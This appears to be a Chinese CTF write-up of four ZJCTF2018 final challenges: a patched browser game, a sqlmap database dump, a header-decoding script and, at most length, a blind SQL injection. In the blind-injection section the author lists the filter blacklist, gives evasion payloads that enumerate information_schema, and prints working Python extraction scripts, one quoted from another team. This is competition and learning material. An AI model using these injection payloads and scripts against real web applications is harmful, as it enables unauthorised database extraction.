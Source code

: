 # ZJCTF2018 final
#CTF/Writeup
记录一下省赛线下这一天我参与的题目，以作留存。

## 0x01你追我赶
看到这道题，先抓包，发现包内有静态 js 文件：`/static/game/index.js`

而且源码里也提示题目是 offline，可以想见这道题目的总体思路是修改本地逻 辑。 这是一个以 chrome 恐龙游戏为基础的题目，在以前也做到过，不同的是，在 home 页面可以看到游戏规则里写坚持 1 分钟即可获得 flag。因此改分数是不太对的， 所以我选择搜索碰撞逻辑然后修改,去掉了 else 后面调用 gameover 的代码，这样 就不会碰撞了：
![](ZJCTF2018%20final/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202018-11-05%20%E4%B8%8A%E5%8D%888.56.05.png)
五分钟后还原代码，然后用 burp 拦截 ajax 请求，在回复报文中获得 flag。 当然，在写 wp 复看这段代码的时候还找到了 post 请求的代码段，这样自主发包 想必应该也是一种思路。
决赛后新加post成功后的四张图片像素位比较，因为misc我不管，在此就不多赘述。
<br>

##  0x02知法懂法
Sqlmap扫id字段dump出整个数据库，比对每一条和网络安全法有什么区别。发现第二十九条与标准法不同。
然后猜谜，该提交什么呢，往哪里提交呢？ctf真是一个猜谜游戏，爆了网页，爆了属性名，最后发现提交正确的第二十九条内容即可获得flag
<br>

## 0x03再快一点
原题，存在于各类基础ctf题库，脚本如下：
```
import requests
import base64

url= ‘http://172.21.1.102:61234/hC1DU4oEZ3’
s = requests.Session()
flag = base64.b64decode(base64.b64decode(s.get(url).headers[‘flag’]).decode(‘utf-8’).split(‘:’)[1]) 
postdata = {‘margin’:flag}
*print*(s.post(url, data=postdata).text)
```
<br>

## 0x04Blind
写这篇writeup就想记录一下这个耻辱，自己拱手相让的冠军真的很令人难受。
### 基础性判断判断：
当被字符等截断前的数字为1-5时返回you find it!，被过滤字符返回Probably you need an other mothod.，其余返回hide more deep。
发现黑名单字符为：`> <> != ' %27 # and union 空格`
未被过滤的字符为：`() ^ or %20 - CHAR() "  %00 select <`
确定是字符型注入：`1-1`结果未变
所以暂且把hide more deep当作**错误值**，you find it!当作**正确值**，因为需要用`or`连接，所以第一位要先取错误值，比如`0`，然后or后拟构造出一个true，让查询返回正确，否则返回错误。过程中发现，虽然`'`被过滤，但是`”`却可以完成构造，说明字符串被双引号闭合，所以完成poc也不成问题。

### 最后构筑payload结构如下：
 `0"or"1"^"1"^(xxxxxx)--%20` 
ps1: 我🐎也不知道狗哥在帮试payload的时候经历了什么，核心payload的前面要加”1”^”1”，讲道理这样能用的话，只要在核心前加“0”即可，不过令人奇怪的是：or”1”^”1”和or1^1返回的结果有差异，可能数据库是MSSQL之类的原因。
ps2：由于当时我在尝试了> 和<>没有试<，理所当然觉得<也被过滤了，是我的失误，所以最后用减号，这大大降低了脚本的优势，以至于我后来一直选择burp工程锤来爆破。
不管怎么说，总算是能用了。

### 编写脚本：
脚本里用到的payload如下：
 `0"or"1"^"1"^(ascii(substr(database(),{0},1))-{1})--%20` 
脚本编辑如下：
```
# POST boolean blind sql injection
import requests

url = 'http://172.21.1.102:61234/iFmn2H0UOq'
s = requests.Session()
key = ''

for pos in range(1,2): 
	for mid in range(0,127):
		payload = r'0"or"1"^"1"^(ascii(substr(database(),{0},1))-{1})--%20'.format(pos,mid)
		data = {'id':payload,'Submit':'Search'} 
		r = s.post(url, data=data)
		print(len(r.text))
		# if b"Hide more deep" in r.content:
		if len(r.text)==647:
			break

	key += chr(mid)
	print(key)
print("result:",key)
```
很遗憾，不知道为何，同样的payload，在burp下能爆出来，脚本就会出现问题，原因大抵是python对payload中双引号的处理可能和正常报文有所不同，我也不是特别熟悉request模块，所以在此即然burp能用，就索性用了burp。

### burp上爆肝一般的爆破开始：
使用payload如下：
`0"or"1"^"1"^(ascii(substr(((select group_concat(xxx) from xxx)),{0},1))-{1})--%20`
* 爆数据库名：
`0"or"1"^"1"^(ascii(substr((((select group_concat(schema_name) from information_schema.schemata))),{0},1))-{1})--%20`
获得`information_schema tips useless`
* 爆表名：
`0"or"1"^"1"^(ascii(substr(((SELECT group_concat(table_name) FROM information_schema.tables)),{0},1))-{1})--%20`
800字长。。。。。
* 爆字段名：
`0"or"1"^"1"^(ascii(substr(((select group_concat(xxx) from xxx)),{0},1))-{1})--%20`
1200字长。。。。。没有写脚本真的很僵。所以就在这里卡住了。。。
中间还用了max和min,爆出了zjctf这个表名，判断是useless.zjctf，然而依旧无济于事，最终没找到正确的列名比赛就结束了。
现在想想，应该是去解决我脚本上的问题，而不是头铁来用burp爆。

### 拜读ch1p战队wp后的总结和思考
几个点：
1. 首先，他们和我一样，burp上正确的payload用在脚本中就会出现问题，他们的结论是`--`上会有问题，这我就没有深究出来。而且，他们及时转换策略，将`--`换成了`or "-`，使脚本能够成功运行。哎
2. 在poc的设计上，使用`/**/`代替空格，我用`^()`取代了空格；`in`取代比较字符，所以用了substr却没加ascii。没有使用`<`我觉得在这句话来讲是有问题的，首先是编写脚本的时候就不能用二分法加快搜索速度，其次是不区分大小写的特性导致了后面爆writeup出现问题。

**其部分wp如下：**
在当前库tips中，并没有发现flag ,需要进行跨库查询，首先需要先在information_schema库中，获得所有的库名。
payload:`payload = '-1" or substr((select group_concat(table_schema) from information_schema.tables where table_schema not in ("information_schema","tips")),%s,1) in ("%s") or "0'`
得到还存在一个名为userless 的数据库，查询其表段，得知存在zjctf 表，flag 在其content 字段。
跑出的 flag 为：zjctf{aa0_bl1nd_hha} 但是上交时提示错误。懵了一会儿后突然想起in 是不区分大小写的。 那么猜测大写字母，针对 flag 中唯一的单词，尝试提交aa0_Bl1nd_hha 成功！

下面是完整的脚本：
```
"""
    Author:Li4n0
    Date:2018-11-4
"""
import requests
import string

# in 不区分大小写 需要自己再判断一次

url = 'http://172.21.1.102:61234/iFmn2H0UOq'
#payload = '-1" or substr((select group_concat(column_name) from information_schema.columns where table_name in ("zjctf")),%s,1) in ("%s") or "0'

#payload = '-1" or substr((select group_concat(table_schema) from information_schema.tables where table_schema not in ("information_schema","tips")),%s,1) in ("%s") or "0'

payload = '-1" or substr((select group_concat(content) from useless.zjctf),%s,1) in ("%s") or "0'
key = ''
length = 1
while True:
    for i in string.printable.replace('#', ''):
        data = {
            'id': payload.replace(' ', '/**/') % (str(length), i),
            'Submit': 'Search'
        }
        r = requests.post(url, data=data)
        if 'You find' in r.text:
            key += i
            length += 1
            break
    print(key)
```
个人认为，这个脚本，精髓就在where后的`in`和`not in`，败笔在(“%s”)前的`in`。值得吸收的点还有使用`for i in string.printable.replace('#', '')`来爆破字符，比我的脚本要精确一点。不管如何，它能跑出答案，一切都无所谓了。


END:)


